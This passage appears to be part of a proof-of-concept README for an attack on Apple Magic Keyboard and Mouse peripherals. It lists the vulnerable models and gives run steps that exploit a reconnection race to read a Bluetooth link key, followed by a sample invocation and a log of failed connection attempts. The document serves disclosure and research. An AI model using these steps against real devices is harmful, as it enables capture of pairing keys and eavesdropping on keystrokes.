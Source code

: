 The following Apple peripherals were tested and found vulnerable to this attack. No other peripherals were tested, so this list may be incomplete.

| Product Name | Model Number |
|-|-|
| Magic Keyboard | A2450 |
| Magic Keyboard with Touch ID | A2449 |
| Magic Keyboard with Numeric Keypad | A1843 |
| Magic Keyboard with Touch ID and Numeric Keypad | A2520 |
| Magic Mouse | A1657 |

#### Starting State

- Magic Keyboard is powered on and plugged into the Mac

#### Running the PoC

Plug the Magic Keyboard into the Linux computer with a Lightning-to-USB cable, then run the script. Once the script is running, unplug the keyboard from the Mac.

When the keyboard is unplugged, there is a race to connect to the keyboard between the attacker machine and the Mac.

The PoC will typically connect to the Magic Keyboard either ~5 or ~25 seconds after the keyboard is unplugged from the Mac. Sometimes the Mac will win the race, and when it does, the PoC will not complete.

```
./read-link-key-lightning.py <Magic-Keyboard-BT-Address>
```

#### Invocation

```
./read-link-key-bluetooth.py 1c:57:dc:88:55:02
```

#### Output

```
[2024-01-07 13:09:59.311] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:00.313] ERROR connecting on port 17: timed out
[2024-01-07 13:10:00.314] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:00.316] ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 13:10:00.318] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:01.359] ERROR connecting on port 17: timed out
[2024-01-07 13:10:01.361] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:01.362] ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 13:10:01.364] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:02.407] ERROR connecting on port 17: timed out
[2024-01-07 13:10:02.408] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:02.410] ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 13:10:02.411] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:03.448] ERROR connecting on port 17: timed out
[2024-01-07 13:10:03.449] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:03.451] ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 13:10:03.452] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:04.512] ERROR connecting on port 17: timed out
[2024-01-07 13:10:04.513] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:04.515] ERROR connecting on port 17: [Errno 22] Invalid argument
[2024-01-07 13:10:04.516] connecting to 1c:57:dc:88:55:02 on port 17
[2024-01-07 13:10:05.568] ERROR connecting on port 17: timed out
[2024-01-07 13:10:05.569] connecting to 1c:57:dc:88:55:02 on port 17
```